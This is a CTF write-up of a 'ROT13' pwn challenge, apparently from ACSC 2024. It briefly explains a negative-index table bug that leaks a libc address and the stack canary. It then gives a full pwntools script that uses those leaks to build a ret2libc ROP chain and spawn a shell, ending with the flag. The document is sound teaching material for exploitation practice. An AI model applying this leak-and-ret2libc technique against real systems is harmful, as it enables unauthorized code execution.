 # ROT13 Writeup:

## Challenge Description:
This is the fastest implementation of ROT13!

    > When we open the source code, we see that there's a rot13 cipher, which takes out input and performs rot13 with a table, which is already defined.
    > Aha! It has a negative indexing bug, we can use values from \x7f to \xff to leak values on the stack!
    > We can use this to get leaks (a libc leak and a canary leak to be specific).
    > Using these leaks, we perform a simple ret2libc.

## Exploit:

```py
from pwn import *

elf = exe = ELF("./rot13_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")
io = process("./rot13_patched")

# io = gdb.debug("./rot13_patched", 
# '''
# b *main
# c
# ''')

# io = remote("rot13.chal.2024.ctf.acsc.asia", 9999)
context.log_level = 'debug'

payload = b""
for i in range(0x98, 0xa0): payload += p8(i)

io.recvuntil("Text:")
io.sendline(payload)
io.recvuntil("Result: ")
libc_leak = u64(io.recv(8))

payload = b""
for i in range(0xe8, 0xf0): payload += p8(i)

io.recvuntil("Text:")
io.sendline(payload)
io.recvuntil("Result: ")
canary = u64(io.recv(8))

libc.address = libc_leak - 0x21b780
binsh = libc.address + 0x1d8678
ret = libc.address + 0x29139
pop_rdi = libc.address + 0x2a3e5

payload = b'a'*0x108
payload += p64(canary)
payload += b'a'*8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(ret)
payload += p64(libc.symbols['system'])

io.recvuntil("Text:")
io.sendline(payload)

io.recvuntil("Text:")
io.sendline()

io.interactive()

# We get flag: ACSC{aRr4y_1nd3X_sh0uLd_b3_uNs1Gn3d}
```

